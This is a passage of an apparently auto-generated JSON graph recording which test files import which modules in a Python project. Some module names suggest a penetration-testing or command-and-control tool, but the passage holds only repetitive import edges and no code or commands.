"relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_graph"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_graph"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_graph"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_graph"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_graph"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_graph"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_graph"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_graph"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_graph"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_graph"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_graph"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_graph"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_telemetry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_telemetry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_telemetry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_telemetry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_telemetry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_telemetry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_telemetry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_telemetry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_telemetry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_telemetry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_telemetry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_telemetry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_telemetry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_telemetry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli.palette_command"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "builtins"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_palette.py", "target": "cli"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_set_migration.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_set_migration.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_set_migration.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_set_migration.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_set_migration.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_set_migration.py", "target": "cli.commands._dormancy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_set_migration.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_set_migration.py", "target": "cli.commands._dormancy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_set_migration.py", "target": "cli.commands._dormancy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_set_migration.py", "target": "cli.commands._dormancy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_set_migration.py", "target": "cli.registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_set_migration.py", "target": "cli.registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_set_migration.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_set_migration.py", "target": "cli.registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_set_migration.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_set_migration.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_set_migration.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_set_migration.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_command_set_migration.py", "target": "cli.commands._dormancy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_conditional_hooks_extended.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_conditional_hooks_extended.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_conditional_hooks_extended.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_conditional_hooks_extended.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_conditional_hooks_extended.py", "target": "modules.conditional_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_conditional_hooks_extended.py", "target": "modules.conditional_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_conditional_hooks_extended.py", "target": "modules.conditional_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_console_stdio.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_console_stdio.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_console_stdio.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_console_stdio.py", "target": "core.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_console_stdio.py", "target": "core.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_contract_manifest.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_contract_manifest.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_contract_manifest.py", "target": "scripts.check_contract_manifest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core.py", "target": "core.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core.py", "target": "core.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core.py", "target": "core.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core.py", "target": "core.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core.py", "target": "importlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core.py", "target": "core.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core.py", "target": "core.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core.py", "target": "core.crypto"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core.py", "target": "core.crypto"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core.py", "target": "core.crypto"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core.py", "target": "core.crypto"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core.py", "target": "core.validators"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core.py", "target": "core.validators"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core.py", "target": "core.validators"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core.py", "target": "core.validators"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core.py", "target": "core.validators"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core.py", "target": "core.validators"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core.py", "target": "core.protocols"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core.py", "target": "core.protocols"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core.py", "target": "core.protocols"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_command_bridge.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_command_bridge.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_command_bridge.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_command_bridge.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_command_bridge.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_command_bridge.py", "target": "core.command_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_command_bridge.py", "target": "core.command_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_command_bridge.py", "target": "core.command_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_command_bridge.py", "target": "core.command_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_command_bridge.py", "target": "core.command_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_command_bridge.py", "target": "core.command_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_command_bridge.py", "target": "core.command_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_command_bridge.py", "target": "core.command_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_command_bridge.py", "target": "core.command_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_command_bridge.py", "target": "core.command_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_config.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_config.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_config.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_config.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_config.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_config.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_config.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_config.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_config.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_config.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_config.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_config.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_config.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_config.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_config.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_config.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_config.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_config.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_config.py", "target": "core.payload_schema"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_config.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_config.py", "target": "core.payload_schema"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_config.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_config.py", "target": "core.payload_schema"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_defaults.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_defaults.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_defaults.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_defaults.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_defaults.py", "target": "core"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_defaults.py", "target": "core.payload_schema"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_defaults.py", "target": "lazyc2.blueprints.api"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_executor.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_executor.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_executor.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_executor.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_executor.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_executor.py", "target": "core.executor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_executor.py", "target": "core.executor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_executor.py", "target": "core.executor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_executor.py", "target": "core.executor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_executor.py", "target": "core.executor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_executor.py", "target": "core.executor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_executor.py", "target": "core.executor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_executor.py", "target": "core.executor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_executor.py", "target": "core.executor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_executor.py", "target": "core.executor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_executor.py", "target": "core.executor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_executor.py", "target": "core.executor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_executor.py", "target": "core.executor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "obs_parser"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "obs_parser"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "obs_parser"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "obs_parser"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "playbook_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "playbook_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "cve_matcher"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "report_generator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "report_generator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "report_generator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "report_generator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "report_generator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "memory_store"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "memory_store"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "memory_store"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "llm_evaluator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "llm_evaluator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "llm_evaluator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "integrations.searchsploit"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "integrations.searchsploit"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "integrations.misp_export"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "dashboard_bp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "flask"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "flask_login"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "collab_bp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "flask"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "c2_profile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "c2_profile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "c2_profile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "config_store"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "lazyown_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "lazyown_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "lazyown_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "lazyown_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "lazyown_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "lazyown_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "lazyown_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "lazyown_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "lazyown_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "lazyown_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "lazyown_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "lazyown_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "lazyown_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "lazyown_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "lazyown_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "lazyown_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "lazyown_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "session_reader"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "session_reader"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "session_reader"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "session_reader"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "session_reader"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "session_reader"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "reactive_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "reactive_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "reactive_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "reactive_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "reactive_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "reactive_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "reactive_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_core_modules.py", "target": "session_rag"}, {"confidence": 